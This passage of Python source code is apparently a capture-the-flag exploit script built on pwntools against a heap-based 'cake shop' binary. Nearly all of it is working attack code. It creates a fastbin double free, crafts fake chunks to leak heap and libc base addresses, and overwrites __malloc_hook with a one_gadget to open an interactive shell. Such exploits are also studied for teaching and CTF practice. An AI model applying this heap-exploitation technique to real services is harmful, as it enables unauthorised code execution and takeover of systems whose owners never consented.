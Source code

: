 ```python
                p64(0x21))  # chunk-header 3
	print("".join(map(chr, p.recvline(timeout=2))).rstrip())

def set_top(addr,offset=0):
	wait_prompt()
	p.sendline(b" "*(8+offset) + p64(0x21) + p64(addr) + b"\0"*(0x20 - 16) + # chunk 1
                 p64(0x21) + b"\0"*(0x20 - 8) + #chunk 2
                 p64(0x21)) # chunk-header 3
	print("".join(map(chr, p.recvline(timeout=2))).rstrip())

make("A", 0) # 0
make("B", 0x21) # 1

serve(0)
serve(1)

heap_addr = inspect(1)
heap_base = heap_addr - 0x1010
print("LEAKED HEAP ADDR: 0x%08X" % heap_addr)
print("HEAP BASE ADDR: 0x%08X" % heap_base)

serve(0) # DOUBLE FREE

# We have setup a double free.
make("C", aout.symbols["shop"]-8) # consumes prev #0 - primes &shop-8 to be the top chunk
make("D", 0) # 3 - consumes previous #1
make("E", 0) # 4 - re-consumes #0, putting (&shop-8) at TOP of fastbin

make(p64(heap_base + 0x20), 0x21) # 5 - overwrites 0x21 into customers. **Fastbin is corrupted**
# heap_base + 0x20 is the addr of a future fake chunk, written into cakes[0]

fake_chunk() # craft a fake 0xA0 size chunk in the IO buffer
serve(0) # free the fake chunk
addr = inspect(0) # leak ptr to unsorted bin
libcbase = addr - 0x3c4B78
print("LIBC BASE ADDR: 0x%08x" % libcbase)

set_top(0) # craft a fake 0x20 size in-use chunk in the IO buffer
serve(0) # free the fake chunk (fake chunk becomes top chunk in the 0x20 fastbin)

set_top(aout.symbols["shop"]) #overwrite the next-pointer to now point at &shop
make("F", 0) # 6 - DUMMY, consumes the fake chunk, making &shop the top free chunk in the fastbin

make("\0"*7, 0) # clears cakes[0]/cakes[1]. puts heap_base + 0x20 at the top of the fastbin.

set_top(aout.symbols["shop"], 16) # NOTE: This fake chunk is OFFSET by 16 bytes
make("G", 0) # DUMMY, consumes "fake-chunk" and writes to cakes[0]
# &shop is once again at the top of the fastbin.

make(p64(lib.symbols["__malloc_hook"] + libcbase), 0x4526a + libcbase) # write-what-where
# 0x4526a is the offset of the one_gadget

echo("M") # one more malloc, which calls into __malloc_hook, which calls the one_gadget.

p.interactive()
```
